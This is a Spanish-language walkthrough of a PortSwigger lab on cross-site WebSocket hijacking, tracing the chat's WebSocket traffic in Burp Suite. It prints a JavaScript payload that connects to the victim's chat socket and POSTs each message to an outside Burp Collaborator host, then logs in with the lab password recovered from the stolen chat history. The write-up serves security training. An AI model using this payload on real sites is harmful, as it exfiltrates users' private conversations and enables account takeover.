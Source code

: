```yaml
---
title: Cross-site WebSocket hijacking
description: Laboratorio de Portswigger sobre WebSocket Attacks
date: 2025-02-19 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - WebSocket Attacks
tags:
  - Portswigger Labs
  - WebSocket Attacks
  - Cross-site WebSocket hijacking
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Para `resolver` este `laboratorio`, debemos `explotar` la funcionalidad de `WebSockets` para realizar un ataque de `Cross-Site WebSocket Hijacking`. Esto nos permitirá `interceptar` el `historial del chat` de la víctima y usar la información obtenida para `comprometer su cuenta`

---

## Guía de WebSocket Attacks

`Antes` de completar este laboratorio es recomendable leerse esta guía de websocket attacks [https://justice-reaper.github.io/posts/WebSocket-Attacks-Guide/](https://justice-reaper.github.io/posts/WebSocket-Attacks-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/WebSocket-Attacks-Lab-2/image_1.png)

Pulsamos sobre `Live chat` y vemos que hay un `chat` de `IA`. Este tipo de chats suelen ser `LLM's`, un tipo de `modelo de IA` entrenado con grandes volúmenes de texto para procesar y generar lenguaje natural. Estos modelos, como `ChatGPT`, son una subcategoría dentro del `NLP (Natural Language Processing)` y se especializan en tareas como `traducción`, `resumen`, `análisis de texto` y `generación de respuestas`

![](/assets/img/WebSocket-Attacks-Lab-2/image_2.png)

Si nos `abrimos` el `inspector` de `Chrome` vemos que tenemos una `cookie` asignada

![](/assets/img/WebSocket-Attacks-Lab-2/image_3.png)

Si accedemos a `Proxy > WebSockets history` podemos ver los `datos enviados` y `recibidos`, en el `primer mensaje` vemos el `handshake`, el `handshake` nos indica que ya estamos listos para poder `enviar mensajes`

![](/assets/img/WebSocket-Attacks-Lab-2/image_4.png)

El `segundo mensaje` que obtenemos es al `conexión` del `otro usuario`

![](/assets/img/WebSocket-Attacks-Lab-2/image_5.png)

`Enviamos` un `mensaje`

![](/assets/img/WebSocket-Attacks-Lab-2/image_6.png)

Si nos vamos a `Burpsuite` podemos `ver` el `mensaje enviado`

![](/assets/img/WebSocket-Attacks-Lab-2/image_7.png)

Si `inspeccionamos` el `código` vemos que se está usando `wss`, este es un `socket seguro`, el cual funciona sobre `HTTPS` y `cifra` las `comunicaciones` entre `cliente` y `servidor` mediante `TLS/SSL `

![](/assets/img/WebSocket-Attacks-Lab-2/image_8.png)

Si nosotros `recargamos` la `web` con `F5` podemos ver como se `cargan todos los mensajes nuevamente` y se `restaura` el `chat` al `completo`. Podemos comprobar esto desde `Burpsuite`, `cada vez que recargamos la web se cargan todos los mensajes` y se vuelve a `establecer` la `conexión`

![](/assets/img/WebSocket-Attacks-Lab-2/image_9.png)

Si `borramos` nuestra `cookie` y `refrescamos` la `página` se nos `asigna` una `nueva cookie` y un `nuevo chat`

![](/assets/img/WebSocket-Attacks-Lab-2/image_10.png)

![](/assets/img/WebSocket-Attacks-Lab-2/image_11.png)

Si `sustituimos` la `cookie` por la `anterior`, podemos volver a `recuperar` los `chats`

![](/assets/img/WebSocket-Attacks-Lab-2/image_12.png)

Una vez validado esto, nos dirigimos a `Burpsuite Collaborator`, `pulsamos` en `Copy to clipboard`, `copiamos` la `dirección url` en el `script` y copiamos el `endpoint` del `chat` también para poder `establecer` una `conexión`. Una vez tenemos el `exploit` listo nos dirigimos al `Exploit server` y lo pegamos

```
<script>
    var ws = new WebSocket('wss://0a3500160349bd8c84a1ab7400a10009.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://efxlbue9fvngrpy1kw48884j3a91xrlg.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Cuando `pulsemos` sobre `Deliver exploit to victim` le `enviaremos` la `url` del `servidor` donde se `aloja` nuestro `exploit` y la víctima hará `click` sobre ella. Cuando eso ocurra, `obtendremos` sus `chats` en nuestro `subdominio` de `Burpsuite Collaborator`, en uno de esos `chats` podemos ver la `contraseña` del usuario `carlos`

![](/assets/img/WebSocket-Attacks-Lab-2/image_13.png)

Pulsamos sobre `My account` e `iniciamos sesión` con las credenciales `carlos:no5jm5dbv3e89jna369b`

![](/assets/img/WebSocket-Attacks-Lab-2/image_14.png)

![](/assets/img/WebSocket-Attacks-Lab-2/image_15.png)
